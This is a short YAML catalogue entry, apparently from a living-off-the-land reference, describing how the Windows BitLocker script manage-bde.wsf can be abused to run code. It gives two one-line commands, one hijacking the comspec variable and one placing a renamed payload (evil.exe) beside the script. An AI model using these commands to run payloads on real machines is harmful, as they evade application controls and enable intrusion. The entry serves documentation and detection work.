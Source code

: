 ```yaml
---
name: manage-bde.wsf
description: For managing BitLocker Drive Encryption
functions:
  execute:
    - description: Set the comspec variable to another executable prior to calling manage-bde.wsf for execution.
      code: set comspec=c:\windows\system32\calc.exe & cscript c:\windows\system32\manage-bde.wsf
    - description: Run the manage-bde.wsf script with a payload named manage-bde.exe in the same directory to run the payload file.
      code: copy c:\users\person\evil.exe c:\users\public\manage-bde.exe & cd c:\users\public\ & cscript.exe c:\windows\system32\manage-bde.wsf
resources: 
    - resource: https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
    - resource: https://twitter.com/bohops/status/980659399495741441
fullpath: 
    - path: C:\Windows\System32\manage-bde.wsf
notes: Thanks to Jimmy - @bophops (Comspec), Daniel Bohannon - @danielhbohannon (Path Hijack)
---
```

